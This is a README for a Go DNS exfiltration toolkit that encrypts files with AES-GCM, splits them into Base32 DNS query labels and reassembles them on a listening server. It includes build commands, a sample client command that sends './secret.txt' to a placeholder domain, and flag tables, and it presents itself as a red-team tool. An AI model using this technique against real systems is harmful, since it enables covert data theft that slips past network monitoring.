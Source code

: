 # DNS Exfiltration Tool (Go)

This repository contains a DNS exfiltration toolkit written in Go. It allows encrypted, chunked file exfiltration over DNS by encoding file contents with AES-GCM and Base32, transmitting data as DNS A queries, and reassembling the payload on the server side.

> ⚠️ **Educational Use Only**  
> This project is for research, learning, and red-teaming exercises on systems you own or are explicitly authorized to test. Misuse may violate laws or acceptable use policies.

---

## 🧩 Overview

- **Client**: Reads and encrypts a file using AES-GCM, Base32 encodes the payload, splits it into DNS-safe chunks, and sends each chunk as a subdomain in a DNS query.
- **Server**: Listens for DNS queries, extracts and reassembles chunked payloads by identifier, decodes and decrypts the data, and saves the original file to disk.

---

## 🔐 Encryption

- **AES-GCM 256-bit** (32-byte key from `EXFIL_KEY` environment variable)
- Nonce is generated per transfer and prepended to ciphertext
- Encrypted blob is encoded using **unpadded Base32**

---

## 📦 Features

- Chunked transmission via DNS A queries (RFC-compliant labels ≤ 63 chars)
- Reliable reassembly and timeout cleanup on server
- Automatic retransmission for failed client chunks
- Logging for all stages of transmission and recovery

---

## 🚀 Usage

### 1. Generate a 256-bit AES key

```bash
head -c 32 /dev/urandom | xxd -p -c 32
```

Add to `.env` file:

```env
EXFIL_KEY=<your 64-character hex key>
```

---

### 2. Build the binaries

```bash
go build -o dnsexfil-client ./client
go build -o dnsexfil-server ./server
```

---

### 3. Run the server

```bash
./dnsexfil-server --port 5300 --domain xf.example.com --output-dir ./output
```

> The server listens for DNS queries on UDP port 5300 and writes decoded files to `./output`.

---

### 4. Run the client

```bash
./dnsexfil-client --server-ip 127.0.0.1 --server-port 5300 --file-path ./secret.txt --domain xf.example.com
```

> The client encrypts and sends the file over DNS. Failed chunks are retried.

---

## ⚙️ CLI Flags

### Server

| Flag           | Default                   | Description                            |
|----------------|---------------------------|----------------------------------------|
| `--port`       | `53`                      | UDP port to listen on                  |
| `--domain`     | `xf.example.com`          | Domain suffix to match                 |
| `--output-dir` | `./output`                | Output directory for recovered files   |
| `--low`        | `100`                     | Min response delay (ms)                |
| `--high`       | `1500`                    | Max response delay (ms)                |

### Client

| Flag             | Default            | Description                              |
|------------------|--------------------|------------------------------------------|
| `--server-ip`     | `127.0.0.1`        | DNS server IP                            |
| `--server-port`   | `5300`             | DNS server port                          |
| `--file-path`     | *(required)*       | Path to file to exfiltrate               |
| `--domain`        | `xf.example.com`   | Domain suffix for DNS queries            |

---

## 📁 Project Structure

```
.
├── client/
│   └── main.go       # Client logic
├── server/
│   └── main.go       # Server logic
├── .env              # Contains EXFIL_KEY
└── README.md
```

---

## 📜 Legal Notice

This tool is provided **as-is**, without any guarantees or warranty.  
By using this code, you agree to use it only on systems for which you have explicit permission to test.  
The authors accept no liability for misuse or damage.

---

## 🧠 Credit

Created by [John Burns](https://github.com/johnburns)  
Inspired by prior implementations in Python, now ported for speed and portability in Go.
